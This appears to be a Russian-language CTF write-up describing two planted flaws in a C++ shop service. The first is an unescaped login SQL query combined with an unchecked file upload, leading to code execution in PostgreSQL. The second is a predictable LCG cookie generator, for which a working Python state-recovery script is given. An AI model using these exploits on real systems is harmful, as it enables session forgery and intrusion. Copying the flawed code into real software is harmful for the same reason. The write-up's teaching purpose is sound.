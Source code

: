 # Первая уязвимость

Бэкэнд сервиса в качестве базы данных использует postgresql. Так как С++ относительно низкоуровневый язык, то сервис не пользуется никакими ORM, 
но всю работу с базой проделывает через сырые запросы с помощью библиотеки [libpq](https://www.postgresql.org/docs/current/libpq.html). Следовательно,
есть поле для разгула SQL инъекций. При этом почти все места, куда можно было бы вставить инъекцию защищены функцией экранирования PQescapeLiteral. Кроме одного места - 
[метода, используемого при авторизации пользователя](../../services/5g_shop/back/internal/src/services/UsersService.cpp#L98):
```cpp
    auto query = Format(
            HiddenStr("select * from users where login='%s' and password_hash=%s;"),
            login.c_str(),
            escapedPasswordHash.c_str()
    );

    result = PQexec(conn, query.c_str());
```

Сюда можно вставлять практически любой SQL запрос, однако на выходе есть [проверка на "количество и качество"](../../services/5g_shop/back/internal/src/services/UsersService.cpp#L105), которая несколько затрудняет 
извлечение данных через простые запросы:
```cpp
    if (PQresultStatus(result) != PGRES_TUPLES_OK || PQntuples(result) != 1) {
        auto msg = std::string(PQresultErrorMessage(result));

        CROW_LOG_ERROR << msg;

        return Result<std::shared_ptr<User>>::ofError("invalid login or password");
    }

    auto user = User::ReadFromPGResult(result);

    if (user->passwordHash != passwordHash || user->login != login) {
        return Result<std::shared_ptr<User>>::ofError("invalid login or password");
    }
```

В то же время, в сервисе есть функционал загрузки картинок, использующихся для "описания" продаваемой техники. Логика проверки того, что загружаемый файл является картинкой, [присутствует](../../services/5g_shop/back/internal/src/main.cpp#L422), однако написана с ошибкой - проверка есть только заголовка и то, только в случае, когда он есть:
```cpp
    for (auto &header: part.headers) {
        if (header.value.first == "Content-Type") {
            if (!header.value.second.starts_with("image")) {
                return response(status::BAD_REQUEST);
            }
        }
        if (header.value.first == "Content-Disposition") {
            filename = header.params["filename"];
        }
    }
```

Поэтому загрузить любой файл не составит труда. К тому же загруженные файлы будут доступны из контейнера postgresql. Поэтому есть вариант использования уязвимости - выполнить произвольный код
в postgresql, нужно только загрузить туда правильный *.so*-файл. Пример реализации можно посмотреть [здесь](./psql-rce)


# Вторая уязвимость

В сервисе используется самописный генератор uuid4 для кук авторизации пользователей. Генератор основан на линейном конгруэнтном методе, который легко взламывается. [UUID.cpp](services/5g_shop/back/internal/src/tools/UUID.cpp#L14)
```cpp
volatile uint8_t ab[] = {0x41, 0x3c, 0xc6, 0xf3, 0x4e, 0x5f, 0x6d};
volatile uint8_t cb[] = {0x3c, 0x41, 0x6e, 0xc6, 0xf3, 0x6d, 0x5f};
static volatile uint32_t x;
static bool initialized = false;

static char alpha[] = "0123456789abcdef";

namespace shop {
    uint16_t rand() {
        if (!initialized) {
            initialized = true;

            x = std::time(nullptr);
        }

        uint32_t a = (ab[0] << 24) | (ab[2] << 16) | (ab[4] << 8) | ab[6];
        uint32_t c = (cb[0] << 24) | (cb[2] << 16) | (cb[4] << 8) | cb[6];

        x = x * a + c;

        return static_cast<uint16_t>((x & 0xFFFF0000) >> 16);
    }
}
```

Более того, получаемые uuid почти полностью выдают стейт генератора, лишь меняя полубайты местами и выводя сгенерированные числа "в bit endian'e":
```cpp
int counters[] = {4, 2, 2, 8};

    union {
        uint16_t randvalues[8];
        uint8_t bytes[16];
    };

    randvalues[0] = rand();
    randvalues[1] = rand();
    randvalues[2] = rand();
    randvalues[3] = rand();
    randvalues[4] = rand();
    randvalues[5] = rand();
    randvalues[6] = rand();
    randvalues[7] = rand();

    int p = 0;

    for (auto i = 0; i < 4; ++i) {
        for (int j = 0; j < counters[i]; ++j) {
            uint8_t b = bytes[p++];

            ss << alpha[b & 0x0F] << alpha[(b & 0xF0) >> 4];
        }

        if (i != 3) {
            ss << "-";
        }
    }

    return ss.str();
```

Поэтому восстановить состояние можно, создав пользователя и "посмотрев" на его куку. После восстановленного состояния можно генерировать авторизационные куки. Чтобы не перебирать пары (пользователь, кука) можно 
воспользоваться сортировкой всех пользователей по полю `created_at` таковых из метода `/api/users/list`. Код получания состояния генератора может выглядеть [так:](./broken-uuid/sploit.py)
```python
import requests
import uuid


r = requests.post(f'http://localhost:4040/api/users', json={'login': str(uuid.uuid4()), 'password_hash': str(uuid.uuid4()), 'credit_card_info': 'some card'})

if r.status_code != 201:
    print(r, r.content)
    exit(0)


cookie = r.json()['auth_cookie']

print(cookie)

x1 = int(''.join(reversed(cookie[0:4])), 16)
x2 = int(''.join(reversed(cookie[4:8])), 16)

print(hex(x1), hex(x2))

# параметры генератора из бинарника сервиса
a = 0x41c64e6d
c = 0x3c6ef35f

low = 0
lows = []
while low < (1 << 16):
    if ((((low | (x1 << 16)) * a + c) & 0xFFFF0000) >> 16) == x2:
        lows.append(low)
    low += 1


for low in lows:
    x = (x1 << 16) | low
    def rand():
        global x
        x = (x * a + c) & 0xFFFFFFFF
        return (x & 0xFFFF0000) >> 16
    b = [x, rand(), rand(), rand(), rand(), rand(), rand(), rand()]
    s = ''
    for l in b:
        s += ''.join(reversed((hex(l)[2:]).zfill(4)))
    print(x, s)

    if s[4:] == cookie.replace('-', ''):
        print('found! current state is ', x, a, c)
```

